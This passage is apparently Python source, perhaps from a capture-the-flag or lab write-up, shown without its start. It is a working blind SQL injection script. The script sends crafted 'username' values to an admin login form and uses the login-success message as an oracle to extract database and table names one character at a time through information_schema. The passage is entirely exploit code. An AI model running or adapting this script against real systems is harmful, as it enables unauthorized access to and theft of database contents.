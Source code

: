 ```python
            "password": "",
        }
        response = requests.post(url, data=data, headers=headers)
        if (
            "You have now logged in to the Admin area" in response.text
            and chr(char).isupper() == False
        ):
            db += chr(char)
            char = 30
            posicion += 1
        else:
            char += 1

        if char == 126:
            break
    posicion = 1
    char = 30

    lista_db = db.split(",")
    nueva_lista_db = []

    for i in lista_db:
        if (
            i != "performance_schema"
            and i != "sys"
            and i != "information_schema"
            and i != "mysql"
            and i != "phpmyadmin"
            and i != "vip"
        ):
            nueva_lista_db.append(i)
    tablas = ""
    tablas_db = {}

    for i in nueva_lista_db:
        print(i)
        while True:
            data = {
                "op": "adminlogin",
                "username": f"juan' or ascii(substring((select group_concat(table_name) from information_schema.tables where table_schema='{i}'),{posicion},1))={char}-- -",
                "password": "",
            }
            response = requests.post(url, data=data, headers=headers)
            if (
                "You have now logged in to the Admin area" in response.text
                and chr(char).isupper() == False
            ):
                tablas += chr(char)
                char = 30
                posicion += 1
            else:
                char += 1

            if char == 126:
                break
        posicion = 1
        char = 30
        tablas_db[i] = tablas.split(",")
        tablas = ""
    columnas_tablas_db = {}
    tablas_dict = {}
    columnas = ""
```